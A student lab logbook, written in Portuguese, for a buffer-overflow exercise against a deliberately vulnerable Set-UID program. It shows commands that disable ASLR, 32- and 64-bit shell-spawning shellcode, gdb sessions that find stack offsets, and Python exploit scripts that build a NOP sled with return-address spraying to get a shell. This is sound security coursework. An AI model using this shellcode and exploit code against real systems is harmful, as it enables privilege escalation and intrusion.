 # LOGBOOK5 - Buffer Overflow

## Setup

Antes de iniciarmos o guião da semana 5, devemos desligar algumas proteções do sistema operativo (para nos facilitar), tais como a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.

```
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
## Task 1

Primeiramente, executamos o seguinte código :

```c
#include <stdio.h>
int main(){
	char*name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Reparamos que abriu uma shell na mesma pasta onde foi executado o programa.

Depois executamos o call_shellcode.c:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e""\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57""\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f""\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31""\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;
int main(int argc, char**argv){
    char code[500];strcpy(code, shellcode); // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                 // Invoke the shellcode from the stack
    return 1;
}
```

Ao executar este ficheiro usando o `make`, reparamos que é criado 2 ficheiros `a32.out a64.out`. Quando executamos qualquer um deles, reparamos que é aberto um shell.

## Task 2

Após analisar o ficheiro stack.c, reparamos que a vulnerabilidade tratava-se do seguinte: a função strcpy é usada para copiar o conteúdo do parâmetro str para o array buffer. No entanto, a função strcpy não tem verificação para garantir que o tamanho da string (que pode ter até um máximo de 517) não exceda o tamanho do buffer (BUF_SIZE = 100). Se o comprimento da stringstr for maior que o tamanho do buffer, irá substituir a memória adjacente, levando a um comportamento inesperado, que neste caso podemos aproveitar para explorar a vulnerabilidade.

Também reparamos que executando o make, é criado vários ficheiro do género stack-Lx , onde x varia entre 1 e 4. A diferença entre estes ficheiros é o valor do BUF_SIZE.

![files](Images/files.png)

## Task 3

Primeiramente, criamos um ficheiro badfile e executamos o make para criar os ficheiros necessários para fazer debug,e executamos os seguintes comandos:

```
$ touch badfile 
$ gdb stack-L1-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p $ebp # Obtemos o valor do ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```

![code1](Images/code1.png)
![code1](Images/code2.png)

Após obtermos os valores necessários, vamos usar o programa python para colocar conteúdo no nosso badfile, mas para tal temos de fazer alterações necessárias para funcionar:

Na variável shellcode vamos meter o valor shellcode de 32-bits que executa uma shell:
```py
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

De seguida, alterou-se o valor do start para guardar o valor do shell code no fim da lista.

```py
start = 400
```

Foi calculado o novo endereço de retorno que aponta para o código do shell a ser executado.

```py
ret    = 0xffffcaf8 + 200
```

Usando os dois endereços obtidos durante o debug, determinou-se a localização do endereço de retorno em relação ao início do array (offset)

```py
offset = 0xffffcaf8 - 0xffffca8c + 4
```

Após executar o ficheiro ./exploit.py e ./stack-L1 conseguimos obter acesso a uma shell com permissões:

![shell](Images/shell.png)

## Task 4

Agora neste, a diferença é que não podemos usar o `p $ebp` para descobrir o valor do ebp.

Em primeiro lugar executamos as seguintes instruções no terminal para obter mais informações:

```
$ touch badfile 
$ gdb stack-L2-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```

De seguida modificamos o ficheiro exploit.py:

```py

#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Metemos o shellcode no fim do badfile
content[517 - len(shellcode):] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
# Adicionamos 300 para fazer o salto
ret    = 0xffffca50 + 300         # Change this number  

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

##Brute-force em cada endereço para descobrir o endereço. Como cada endereço tem 4 bytes, fazemos 200/4 = 50
for offset in range(50):
	content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```


Por fim executamos o código:
```
./exploit.py
./stack-L2
```

E obtivemos:

![shell2](Imagens/shell2.png)
